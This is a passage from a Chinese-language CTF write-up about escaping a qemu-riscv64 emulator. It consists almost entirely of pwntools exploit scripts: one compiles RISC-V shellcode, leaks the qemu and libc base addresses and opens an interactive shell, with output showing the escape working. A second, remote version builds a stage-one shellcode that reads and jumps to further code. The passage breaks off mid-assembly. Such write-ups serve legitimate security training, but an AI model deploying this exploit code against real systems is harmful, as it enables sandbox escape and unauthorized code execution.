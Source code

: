 ```python

f = open("shellcode.c","w");f.write(shellcode);f.close()
os.system("riscv64-linux-gnu-gcc -e main -nostdlib  -Os -static shellcode.c -o shellcode")
os.system("riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode")

io =  process(["./qemu-riscv64","./test"],env={"LD_PRELOAD":"./libc-2.27.so"})
data = io.recvuntil("libc-")
data = str(data).replace("\\n","\n").splitlines()
print(data)
io.recv(4096)
for i in data:
    print(i)
    if "00000000" not  in i: continue
    if "qemu-riscv64"  in i: qemu_base = int(i[0:12],16)
    if "libc-"         in i: libc_base = int(i[0:12],16)

log.success(hex(qemu_base))
log.success(hex(libc_base))

io.send(p64(qemu_base)+p64(libc_base))
io.interactive()
```

成功从给出的qemu中逃出：

```
➜  python exp.py
[+] Starting local process './qemu-riscv64': pid 88127
[+] 0x55bb1ec8a000
[+] 0x7f13d1b2a000
[*] Switching to interactive mode
$ ls
core    libc-2.27.so  sc.bin     shellcode.c  test.c
exp.py    qemu-riscv64  shellcode  test
```

> c代码源码版shellcode：题目远程版

```python
from pwn import *
import os
#context(log_level="debug")
io = remote("10.10.10.1",60001)

def gen_shellcode(shellcode):
    f = open("shellcode.c","w");f.write(shellcode);f.close()
    os.system("riscv64-linux-gnu-gcc -e main -nostdlib  -Os -static shellcode.c -o shellcode")
    os.system("riscv64-linux-gnu-objcopy --dump-section .text=sc.bin shellcode")
    f = open("sc.bin","rb");sc = f.read();f.close()
    print(sc.hex())
    return sc

shellcode_jmp = '''
int main() {
    void * addr = 0x6c000;
    syscall(63,0,addr,0x200);
    (*(void(*)()) addr) ();
}

asm(
    "syscall:\\n"
    "mv a7, a0\\n"
    "mv a0, a1\\n"
    "mv a1, a2\\n"
    "mv a2, a3\\n"
```